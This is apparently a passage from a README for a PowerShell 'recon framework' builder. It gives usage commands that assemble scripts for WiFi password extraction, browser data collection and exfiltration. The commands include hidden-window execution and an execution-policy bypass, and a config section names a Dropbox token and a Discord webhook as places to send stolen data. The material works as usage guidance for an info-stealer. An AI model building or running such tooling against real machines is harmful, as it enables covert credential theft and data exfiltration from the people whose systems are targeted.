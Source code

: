 ```bash
python builder.py --safemode \
  --modules system_info.ps1 user_recon.ps1 \
  --out user_audit.ps1
```

#### 3. WiFi Password Extraction (Unsafe - Admin Required)

```bash
python builder.py --allow-unsafe \
  --modules wifi_info.ps1 \
  --out wifi_extract.ps1

powershell -ExecutionPolicy Bypass -File .\wifi_extract.ps1
```

#### 4. Comprehensive Recon with Exfiltration (Unsafe)

```bash
python builder.py --allow-unsafe \
  --modules system_info.ps1 user_recon.ps1 wifi_info.ps1 browser_data.ps1 exfiltration.ps1 \
  --hide-window \
  --out full_recon.ps1
```

**Note:** Edit the generated script to uncomment exfiltration calls before running.

---

## Config

### Environment Variables (`.env`)

```env
DROPBOX_TOKEN=your_dropbox_access_token_here
DISCORD_WEBHOOK=https://discord.com/api/webhooks/YOUR_WEBHOOK_URL
```

**Setup Guides:**
- [Dropbox API Setup](https://www.dropbox.com/developers/documentation)
- [Discord Webhook Setup](https://support.discord.com/hc/en-us/articles/228383668-Intro-to-Webhooks)

### Script Configuration (`config_template.ps1`)

```powershell
$ScriptConfig = @{
    ProjectName = "PS-Recon-Framework"
    SafeMode    = $true
    Debug       = $true
    LogPath     = "$env:TEMP\ps_builder_demo.log"
}
```

---
